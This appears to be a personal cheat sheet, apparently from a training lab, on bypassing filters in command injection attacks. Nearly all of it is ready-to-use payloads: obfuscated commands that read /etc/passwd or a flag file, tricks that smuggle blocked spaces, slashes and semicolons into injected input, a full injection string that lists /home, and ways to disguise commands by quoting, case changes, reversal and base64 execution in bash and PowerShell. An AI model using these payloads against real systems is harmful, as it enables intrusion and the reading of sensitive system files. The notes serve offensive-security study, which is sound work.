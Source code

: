 ## Bashfuscator
```
bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

then execute it with 
```
bash -c '{output}'
```
can use ODSfuscation also for windows
```
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
encoding 
1
```
just put the output into CMD and it should work
### Blacklisted Characters
Brute force to find what is blacklisted, and use the non-blacklisted one

#### Blacklisted spaces
Use tab (%09)
Use ${IFS}
Use Brace Expansion {ls,-la}

#### Blacklisted /
Linux
```
echo ${PATH:0:1}
```
Windows
```
echo %HOMEPATH:~6,-11%
```

Blacklisted ; 
Linux
```
echo ${LS_COLORS:10:1}
```
window
```
Get-ChildItem Env:
```
get all the characters we need, and then try to produce it


Character shifting 
say u want `\` so u take `[` and then shift it down by 1
```
echo $(tr '!-}' '"-~'<<<[)
```

can use them all tgt to read /home for example
```
127.0.0.1%0a{ls,-la}%09${PATH:0:1}home
```

### Blacklisted Command

```
w'h'o'am'i
w"h"o"am"i
```
cannot mix types of quotes and the number of quotes must be even 

linux only
```bash
who$@ami
w\ho\am\i
```
windows only
```cmd-session
who^ami
```

case manipulation
```
WhOaMi
```

```
$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```

replace the space with %09
```
$(a="WhOaMi";printf %s "${a,,}")
```

reverse commands
```
echo 'whoami' | rev
$(rev<<<'imaohw')
```

for windows u do this
```
iex "$('imaohw'[-1..-20] -join '')"
```

base64 encoding
```
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEgCg==)
```

```powershell-session
 iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```